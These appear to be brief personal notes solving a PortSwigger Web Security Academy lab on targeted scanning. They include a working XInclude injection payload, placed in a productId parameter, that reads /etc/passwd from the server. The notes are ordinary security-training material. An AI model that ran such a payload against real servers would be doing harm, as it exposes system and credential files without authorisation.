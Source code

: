 # Discovering vulnerabilities quickly with targeted scanning

## This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of `/etc/passwd` within 10 minutes.

## Due to the tight time limit, we recommend using [Burp Scanner](https://portswigger.net/burp/vulnerability-scanner) to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a [targeted scan on a specific request](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing#scanning-a-specific-request). Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it

---

step 1
![[lab1_product_stock.png]]

step 2
add payload

```javascript
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
&storeId=1
```

![[lab1_add_payload_etc_password.png]]

![[portswigger_wsa/P03_advanced_topics/P25_essential_skill/images/lab1_solved_lab.png]]
